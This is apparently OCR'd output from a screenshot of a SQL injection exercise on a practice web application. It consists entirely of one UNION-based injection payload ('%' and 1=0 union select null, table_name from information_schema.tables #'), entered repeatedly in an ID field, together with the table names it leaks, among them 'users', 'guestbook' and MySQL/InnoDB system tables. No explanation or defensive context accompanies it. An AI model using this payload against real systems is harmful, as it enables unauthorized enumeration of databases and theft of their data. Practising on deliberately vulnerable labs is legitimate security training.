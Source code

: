 ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_FT_INDEX_CACHE
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_SYS_FOREIGN_COLS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_FT_BEING_DELETED
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_BUFFER_POOL_STATS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_TRX
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_SYS_FOREIGN
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_SYS_TABLES
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_FT_DEFAULT_STOPWORD
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_FT_CONFIG
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_BUFFER_PAGE
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_SYS_TABLESPACES
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_METRICS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_SYS_INDEXES
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_SYS_VIRTUAL
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_TABLESPACES_SCRUBBING
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_SYS_SEMAPHORE_WAITS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: guestbook
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: users
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: columns_priv
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: column_stats
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: db
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 